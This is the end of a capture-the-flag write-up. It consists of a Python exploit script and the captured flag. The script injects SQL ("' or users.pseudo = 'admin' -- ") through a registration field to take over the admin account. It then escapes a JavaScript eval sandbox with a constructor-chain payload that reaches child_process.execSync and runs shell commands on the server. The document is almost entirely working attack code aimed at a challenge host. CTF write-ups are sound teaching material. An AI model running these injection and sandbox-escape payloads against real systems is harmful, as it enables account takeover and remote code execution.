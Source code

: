 ```python
			data['id']=id_
		r = self.sess.post('%s/auth/register'%self.url,json=data).json()		
		return r['access_token']

	def info(self,token):
		return self.sess.get('%s/infos'%self.url,headers={"Authorization":"Bearer %s"%(token)}).json()

	def sqli(self,payload):
		user = ''.join([random.choice('bcdef') for _ in range(15)])
		pwd = user
		token = self.register(
			user = user,
			pwd  = pwd,
			id_ = payload
		)
		return user,pwd,self.info(token)

	def exec(self,token,cmd):
		r = self.sess.post('%s/exec'%self.url,json={'code':cmd},headers={"Authorization":"Bearer %s"%(token)})
		return r.json()

	def rce(self,token,cmd):
		rce = "import('test').catch((e)=>{})['constructor']['constructor']('return process')().mainModule.require('child_process').execSync('%s')"
		return bytes(self.exec(token,rce%cmd)['result']['data']).decode().strip()

exp = exploit(
	url = 'http://13.37.17.31:52005',
	session = requests.session()
)

admin_id = exp.sqli(
	payload = "' or users.pseudo = 'admin' -- "
)[-1]

token = exp.register(
	user = 'random_user',
	pwd  = 'random_pwd',
	id_  =  admin_id['id']
)
token = exp.register(
	user = 'admin',
	pwd  = 'admin_pwd',
)
res = exp.rce(
	token = token,
	cmd = 'cat /home/flag.txt'
)
print(res)
```

Flag: ``PWNME{G0oD_Job!!_5aFe-Ev4l_W4s_n07_V3rY_S4f3_e2}``


[//]: <> (Wrote By Vozec 06/05/2023)